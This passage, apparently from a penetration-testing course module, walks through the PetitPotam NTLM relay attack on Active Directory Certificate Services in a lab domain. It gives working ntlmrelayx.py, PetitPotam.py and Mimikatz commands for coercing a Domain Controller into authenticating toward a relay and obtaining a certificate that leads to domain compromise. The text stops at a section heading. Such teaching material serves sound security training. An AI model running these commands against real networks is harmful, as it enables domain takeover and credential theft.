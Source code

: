 ## PetitPotam (MS-EFSRPC)

PetitPotam ([CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)) is an LSA spoofing vulnerability that was patched in August of 2021. The flaw allows an unauthenticated attacker to coerce a Domain Controller to authenticate against another host using NTLM over port 445 via the [Local Security Authority Remote Protocol (LSARPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-lsad/1b5471ef-4c33-4a91-b079-dfcbb82f05cc) by abusing Microsoft’s [Encrypting File System Remote Protocol (MS-EFSRPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31). This technique allows an unauthenticated attacker to take over a Windows domain where [Active Directory Certificate Services (AD CS)](https://docs.microsoft.com/en-us/learn/modules/implement-manage-active-directory-certificate-services/2-explore-fundamentals-of-pki-ad-cs) is in use. In the attack, an authentication request from the targeted Domain Controller is relayed to the Certificate Authority (CA) host's Web Enrollment page and makes a Certificate Signing Request (CSR) for a new digital certificate. This certificate can then be used with a tool such as `Rubeus` or `gettgtpkinit.py` from [PKINITtools](https://github.com/dirkjanm/PKINITtools) to request a TGT for the Domain Controller, which can then be used to achieve domain compromise via a DCSync attack.

[This](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/) blog post goes into more detail on NTLM relaying to AD CS and the PetitPotam attack.

Let's walk through the attack. First off, we need to start `ntlmrelayx.py` in one window on our attack host, specifying the Web Enrollment URL for the CA host and using either the KerberosAuthentication or DomainController AD CS template. If we didn't know the location of the CA, we could use a tool such as [certi](https://github.com/zer1t0/certi) to attempt to locate it.

### Starting ntlmrelayx.py
```shell-session
$ sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

In another window, we can run the tool [PetitPotam.py](https://github.com/topotam/PetitPotam). We run this tool with the command `python3 PetitPotam.py <attack host IP> <Domain Controller IP>` to attempt to coerce the Domain Controller to authenticate to our host where ntlmrelayx.py is running.

There is an executable version of this tool that can be run from a Windows host. The authentication trigger has also been added to Mimikatz and can be run as follows using the encrypting file system (EFS) module: `misc::efs /server:<Domain Controller> /connect:<ATTACK HOST>`. There is also a PowerShell implementation of the tool [Invoke-PetitPotam.ps1](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1).

Here we run the tool and attempt to coerce authentication via the [EfsRpcOpenFileRaw](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8) method.

### Running PetitPotam.py
```shell-session
$ python3 PetitPotam.py 172.16.5.225 172.16.5.5  
```

### Catching Base64 Encoded Certificate for DC01
